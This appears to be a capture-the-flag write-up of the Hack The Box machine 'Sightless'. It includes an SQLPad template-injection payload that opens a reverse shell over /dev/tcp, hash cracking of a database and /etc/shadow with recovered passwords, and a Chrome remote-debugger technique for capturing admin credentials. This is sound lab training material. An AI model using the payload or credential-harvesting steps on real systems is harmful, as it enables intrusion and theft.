 # Sea Sightless (Easy) - HTB Writeup

## PART ONE: USER

Let’s begin with an nmap scan:

Port 21,22 and 80. Nothing really fancy.

Let's start on the website and launch a subdomain enumeration :

At the same time, let's have a look at the website. And hoovering over one thing we get :

!['site first look'](./redirection.png)

`sqlpad` subdomain. Okay, let's have a look at it. And we can found the version of the website :

!['version'](./version.png)

Let's find an exploit. For example, [this one](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb). And the payload is : `{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.16.21/1234 0>&1"') }}`.

Let's run it :

![exploit](./co.png)

And boom :

![callback](./callback.png)

Let's dig in this.

```bash
(remote) root@c184118df0a6:/var/lib/sqlpad# ls
 cache
 sqlpad.sqlite
```

We are root. Interesting. It means at almost 99% that we are in a container (and there's no user.txt nor root.txt). Anyway, there is a db.

I tried to open it with sqlite, but the command wasn't found on the machine. Instead I will use pwncat !

I can just hit `Ctrl+D` and go type `download sqlpad.sqlite`. Now the DB is on my local machine ! I'll open it and see what's inside.

```bash
sqlite> .tables
batches              query_acl            statements
cache                query_tags           users
connection_accesses  schema_version       vw_query_history
connections          service_tokens
queries              sessions
sqlite> SELECT * FROM users;
da9a25f7-588c-40f5-89db-58fbebab591f|admin@sightless.htb|admin||$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC||||2024-05-15 04:48:09.377 +00:00|2024-05-15 18:16:54.652 +00:00|0||
26113beb-60eb-4a58-81eb-2318e27eb3bf|john@sightless.htb|editor|||2d3499e3-16ba-4b4b-a49e-c7c5dca89f2d|||2024-05-15 12:29:23.725 +00:00|2024-05-15 12:29:27.257 +00:00||0|
```

One hases. Before craking it, I'll try to see which one I should crack first. To do so, let's inspect the home directory `ls /home`.

```bash
michael  node
```

Well. Nothing interesting. Let's crack both of them. First we need to identify them `hashcat hash.txt /opt/rockyou.txt` :

```bash
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-Intel(R) Core(TM) i7-8650U CPU @ 1.90GHz, 14914/29893 MB (4096 MB allocatable), 8MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Thu Sep 12 21:21:56 2024
Stopped: Thu Sep 12 21:22:06 2024
```

And now we can crack it `hashcat hash.txt -m 3200 /opt/rockyou.txt`.

The hash is ... `admin`. Nothing amazing.

Let's keep search for something interesting.

Thanks to `linpeas.sh`. I found that the `/etc/shadow` is readable. Time for more cracking !

And here are the results :

```bash
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside

michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

Let's try root. But of course, it didn't work. Going back to michael. And we get in ! (And I'm not the only one on the box x) )

```bash
michael@sightless:~$ ls
index.html  index.html.1  index.html.2  linpeas.sh  lpeas.sh  peas.sh  user.txt
```

And we can validate the flag as user !

## PART TWO: ROOT

Let's have a look at the open ports `netstat -plant | grep LISTEN` :

```bash
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38249         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:49767         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:32899         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Let's forward 8080 and see what's in there. ```ssh -L 8888:localhost:8080 michael@sightless.htb```

![Port fwd](./port_fwd$.png)

But after somesearch it seems to be a dead end.

Thanks to `linpeas.sh` (again), I found strange things with this process :

![proces](./chrome.png)

Never heard of this before, let's dig in this.

After a pure headache, I finally found the answer. There's a bunch of ports used by chrome. And when forwarding all of them ```ssh -L 8080:127.0.0.1:8080 -L 46321:127.0.0.1:46321 -L 3306:127.0.0.1:3306 -L 3000:127.0.0.1:3000 -L 33060:127.0.0.1:33060 -L 33201:127.0.0.1:33201 -L 45135:127.0.0.1:45135 -L 53475:127.0.0.1:53475 michael@sightless.htb```, you can use [this technique](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) to get an overview of what's happening the browser. So you need to add all the previous port and on one of them there is :

![admin](./admin_co.png)

And by exploring the requests, you can get the admin username and password : `admin:ForlorfroxAdmin`.


